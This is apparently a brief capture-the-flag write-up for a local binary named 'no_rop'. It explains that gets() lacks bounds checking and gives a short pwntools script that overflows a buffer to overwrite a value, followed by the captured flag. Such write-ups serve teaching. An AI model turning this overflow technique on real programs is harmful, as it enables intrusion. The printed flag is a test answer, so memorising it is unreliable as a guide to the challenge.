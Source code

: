 # 🔑 Write-Up

`gets()` is used to read the string, it's deprecated because it doesn't check string bounds. We can exploit this by filling the buffer with some chars.

```python
from pwn import *

context.binary = "./no_rop"

p = process()
p.sendline(b"A" * 8 + p64(1))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
Flag={hello_world_pwn}
```
